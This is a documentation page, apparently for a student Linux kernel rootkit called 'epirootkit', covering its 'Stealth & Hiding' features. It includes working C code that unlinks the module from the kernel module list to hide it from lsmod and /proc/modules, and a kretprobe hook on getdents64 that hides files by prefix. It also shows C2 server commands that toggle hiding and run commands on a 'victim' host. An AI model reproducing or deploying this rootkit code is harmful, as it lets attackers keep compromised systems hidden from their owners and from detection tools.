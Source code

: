 ```yaml
---
title: "Stealth & Hiding"
description: "Module hiding and file hiding capabilities"
icon: "eye-slash"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 53
---
```


# Stealth & Hiding

Hide the rootkit module and files from system detection using kernel hooking techniques.

## What We Implemented

### Module Hiding
- **Hide from `lsmod`**: Remove module from kernel module list
- **Hide from `/proc/modules`**: Module not visible in procfs
- **Dynamic control**: Toggle visibility via C2 commands

### File Hiding
- **Hide by prefix**: Files with specific prefixes are hidden
- **Directory listing**: Intercept `getdents64` syscall
- **Automatic hiding**: Enabled by default when module loads

## Module Hiding

### How It Works
1. **Find module**: Locate rootkit in kernel module list
2. **Remove from list**: Use `list_del()` to remove from `modules` list
3. **Store reference**: Keep pointer to restore later
4. **Toggle visibility**: Can hide/unhide dynamically

### Implementation
```c
int hide_module(void)
{
    struct module *mod;
    
    mutex_lock(&module_mutex);
    list_for_each_entry(mod, &modules, list) {
        if (mod == THIS_MODULE) {
            stealth_state.prev_module_entry = mod->list.prev;
            list_del(&mod->list);
            stealth_state.module_hidden = true;
            break;
        }
    }
    mutex_unlock(&module_mutex);
    return 0;
}
```

### Usage
```bash
# Hide the module
c2-server$ config Client-1
# Select: Toggle Module Hiding
# ✓ Module hidden

# Verify hiding (from victim system)
victim$ lsmod | grep epirootkit
# (no output - module is hidden)

# Check status
c2-server$ status Client-1
# Module Hidden: YES
```

### Detection Evasion
- **`lsmod` command**: Module not listed
- **`/proc/modules`**: Entry removed from procfs
- **System monitoring**: Most tools rely on these sources

## File Hiding

### How It Works
1. **Hook `getdents64`**: Use kretprobe to intercept directory listings
2. **Filter entries**: Remove files with configured prefixes
3. **Modify buffer**: Adjust directory entry buffer
4. **Return filtered**: Send modified listing to userspace

### Hidden File Prefixes
Files starting with these prefixes are automatically hidden:
```c
static const char * const hide_prefixes[] = { 
    "epirootkit",
    "jules_est_bo_", 
    "memfd:",
    ".hidden_",
};
```

### Implementation
```c
static int getdents64_ret_handler(struct kretprobe_instance *ri, 
                                 struct pt_regs *regs)
{
    struct getdents_context *ctx = (struct getdents_context *)ri->data;
    const long ret_value = regs_return_value(regs);
    char *kernel_buffer;
    long filtered_size;

    // Copy user buffer to kernel space for filtering
    kernel_buffer = kmalloc(ret_value, GFP_ATOMIC);
    if (copy_from_user(kernel_buffer, ctx->user_buffer, ret_value) == 0) {
        filtered_size = filter_directory_entries(kernel_buffer, ret_value);
        if (filtered_size != ret_value) {
            copy_to_user(ctx->user_buffer, kernel_buffer, filtered_size);
            regs_set_return_value(regs, filtered_size);
        }
    }

    kfree(kernel_buffer);
    return 0;
}
```

### Examples of Hidden Files
```bash
# These files are hidden from 'ls' output:
/tmp/epirootkit_temp
/var/log/epirootkit.log
/home/user/epirootkit_config
/tmp/jules_est_bo_secret
/tmp/.hidden_file
/tmp/memfd:something
```

### Testing File Hiding
```bash
# Create test files
c2-server$ exec Client-1 touch /tmp/epirootkit_test
c2-server$ exec Client-1 touch /tmp/normal_file

# List directory (file hiding active)
c2-server$ exec Client-1 ls -la /tmp/
# Only shows: normal_file (epirootkit_test is hidden)

# Files still exist and accessible
c2-server$ exec Client-1 cat /tmp/epirootkit_test
# Works fine - file exists but hidden from listings
```

## Dynamic Control

### Interactive Configuration
```bash
c2-server$ config Client-1
# ┌─ Configuration - Client-1
#   Current Configuration:
#   [X] Module Hiding (Click to disable)
#   
# ? Select option: [Use arrow keys]
#   ❯ [X] Module Hiding (Click to disable)
#     Refresh Status
#     Exit
```

## Technical Details

### Syscall Hooking
- **Method**: kretprobe on `getdents64` syscall
- **Kernel version**: Compatible with Linux 5.4.0
- **Memory safety**: GFP_ATOMIC allocations with 4KB limit
- **Error handling**: Graceful fallback on allocation failures

### Module List Manipulation
- **Mutex protection**: Uses `module_mutex` for thread safety
- **List operations**: Standard kernel `list_del()` and `list_add()`
- **State tracking**: Maintains hiding state in global structure



### Customize Hidden Prefixes
Edit the `hide_prefixes` array in `stealth.c` to change which files are hidden.